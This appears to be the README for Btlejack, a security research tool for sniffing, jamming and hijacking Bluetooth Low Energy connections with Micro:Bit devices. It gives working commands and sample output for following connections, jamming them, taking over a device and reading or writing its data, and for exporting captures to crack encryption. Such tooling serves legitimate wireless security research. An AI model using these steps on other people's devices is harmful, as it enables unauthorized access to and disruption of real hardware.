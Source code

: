 BtleJack: a new Bluetooth Low Energy swiss-army knife
=====================================================

Btlejack provides everything you need to sniff, jam and hijack Bluetooth Low Energy devices. It relies on one or more [BBC Micro:Bit](http://microbit.org/) devices running a dedicated firmware.

**This tool only supports Bluetooth Low Energy 4.x.**

How to install
--------------

First, install the `btlejack` Python3 client software with Pip:

```
$ sudo pip3 install btlejack
```

Then, connect your Micro:Bit device to your computer with a USB cable, mount the associated mass storage device, and issue the following command:

```
$ btlejack -i
```

This will program every Micro:Bit device connected to your computer, and make
them ready to use with Btlejack. It will use the correct firmware version for the current client software, so it is highly recommended to perform this firmware installation procedure each time you update Btlejack.

Keep your microbits connected and you're all set !

How to use Btlejack
-------------------

Using Btlejack is quite easy. Btlejack can:
- sniff an existing BLE connection
- sniff new BLE connections
- jam an existing BLE connection
- hijack an existing BLE connection
- export captured packets to various PCAP formats

### Sniffing an existing connection

First, find an existing connection to target with `btlejack`:

``` text
$ btlejack -s
BtleJack version 1.1

[i] Enumerating existing connections ...
[ - 54 dBm] 0xcd91d517 | pkts: 1
[ - 46 dBm] 0xcd91d517 | pkts: 2
```

The first value (in dBm) shows the power of the signal, the greater this value is the better the sniffed connection will be.

The second value (hex) is the associated *access address*, a 32-bit value identifying a link between two bluetooth low energy compatible devices.

The last value is the number of packets seen with this *access address*. The higher this value is, the more probable the corresponding *access address* is used.

Then, use the `-f` option to follow a specific connection:

``` text
$ btlejack -f 0xdda4845e
BtleJack version 1.1

[i] Detected sniffers:
 > Sniffer #0: fw version 1.1

[i] Synchronizing with connection 0xdda4845e ...
✓ CRCInit: 0x2a035e
✓ Channel Map = 0x1fffffffff
✓ Hop interval = 39
✓ Hop increment = 15
[i] Synchronized, packet capture in progress ...
LL Data: 02 07 03 00 04 00 0a 03 00
LL Data: 0a 08 04 00 04 00 0b 5a 69 70
LL Data: 02 07 03 00 04 00 0a 03 00
LL Data: 0a 08 04 00 04 00 0b 5a 69 70

```

**If you are using more than 1 microbit, Btlejack will parallelize some of the sniffing operations in order to speed up the connection parametres recovery !**

### Sniffing for new connections

The `-c` option supported by `btlejack` allows you to specify the target BD address, or you may want to use `any` to capture any new connection created.

```
$ btlejack -c any
BtleJack version 1.1

[i] Detected sniffers:
 > Sniffer #0: version 1.1
 > Sniffer #1: version 1.1
LL Data: 05 22 df b4 6f 95 c5 55 c0 0a f6 99 23 40 1d 7b 2f 0a 9a f4 93 01 12 00 27 00 00 00 d0 07 ff ff ff ff 1f 0b
[i] Got CONNECT_REQ packet from 55:c5:95:6f:b4:df to 40:23:99:f6:0a:c0
 |-- Access Address: 0x0a2f7b1d
 |-- CRC Init value: 0x93f49a
 |-- Hop interval: 39
 |-- Hop increment: 11
 |-- Channel Map: 1fffffffff
 |-- Timeout: 20000 ms

LL Data: 03 09 08 0f 00 00 00 00 00 00 00
LL Data: 03 09 08 0f 00 00 00 00 00 00 00
LL Data: 0b 06 0c 08 0f 00 09 41
LL Data: 03 06 0c 07 1d 00 d3 07
```

or you may also want to specify the target BD address:

```
$ btlejack -c 03:e1:f0:00:11:22
```

**If you connect at least 3 microbits at the same time on your computer, Btlejack will be able to sniff on every advertising channels and has far more chance to capture the connection request.**

### Jamming a connection

Once a connection identified by its *access address*, you can provide jam it by using the `-j` option:

```$ btlejack -f 0x129f3244 -j̀```


### Hijacking a BLE connection

Btlejack is also able to hijack an existing connection, use the `-t` option to do so. Once hijacked, Btlejack will give you a prompt allowing you to interact with the hijacked device.

First, hijack an existing connection:

```
$ btlejack -f 0x9c68fd30 -t -m 0x1fffffffff
BtleJack version 1.1

[i] Using cached parameters (created on 2018-08-11 01:48:24)
[i] Detected sniffers:
 > Sniffer #0: fw version 1.1

[i] Synchronizing with connection 0x9c68fd30 ...
✓ CRCInit: 0x81f733
✓ Channel map is provided: 0x1fffffffff
✓ Hop interval = 39
✓ Hop increment = 9
[i] Synchronized, hijacking in progress ...
[i] Connection successfully hijacked, it is all yours \o/
btlejack>
```

Then use the following commands to interact with the device:
- **discover**: performs services and characteristics enumeration, will give you all the information about services and characteristics
- **write**: write data to a specific value handle
- **read**: read data from a specific value handle
- **ll**: sends a raw link-layer packet (for ninjas)

#### *discover* command

The discover command will send and receive Bluetooth LE packets and retrieve all the services UUIDs and parameters, as well as characteristics UUIDs and parameters:

```
btlejack> discover
start: 0001 end: 0005
start: 0014 end: 001a
start: 0028 end: ffff
 Discovered services:
Service UUID: 1801
 Characteristic UUID: 2a05
   | handle: 0002
   | properties: indicate  (20)
   \ value handle: 0003

Service UUID: 1800
 Characteristic UUID: 2a04
   | handle: 0019
   | properties: read  (02)
   \ value handle: 001a

 Characteristic UUID: 2a00
   | handle: 0015
   | properties: read  (02)
   \ value handle: 0016

 Characteristic UUID: 2a01
   | handle: 0017
   | properties: read  (02)
   \ value handle: 0018

Service UUID: 1824
 Characteristic UUID: 2abc
   | handle: 0029
   | properties: write indicate  (28)
   \ value handle: 002a
```

#### *read* command

The `read` command accepts a single parameter, the value handle corresponding to the characteristic you want to read from:

```
btlejack> read 0x16
read>> 4c 47 20 77 65 62 4f 53 20 54 56
```

#### *write* command

The `write` command accepts three parameters:

```
btlejack> write <value handle> <data format> <data>
```

Supported data formats:
- `hex`: Hex data (i.e. "414261")
- `str`: Text string, may be encapsulated in double quotes

#### *ll* command

This last command allows you to send Bluetooth Low Energy Link-layer PDUs, in hex form, as specified in Volume 6, Part B, Chapter 2.4.


### PCAP file export

One interesting feature of Btlejack is the possibility to export the captured data to a PCAP file.

Btlejack supports the following DLT formats:
- DLT_BLUETOOTH_LE_LL_WITH_PHDR (same)
- DLT_NORDIC_BLE (the one used by Nordic' sniffer)
- DLT_BLUETOOTH_LE_LL (supported on latest versions of Wireshark)

The output file may be specified using the `-o` option, while the output format may be specified with the `-x` option. Valid formats values are: `ll_phdr`, `nordic`, or `pcap` (default).

```
$ btlejack -f 0xac56bc12 -x nordic -o capture.nordic.pcap
```

The `ll_phdr` export type is useful when sniffing an encrypted connection, as it is also supported by [crackle](https://github.com/mikeryan/crackle). So if you want to sniff and break encrypted connections, this is the way to go.
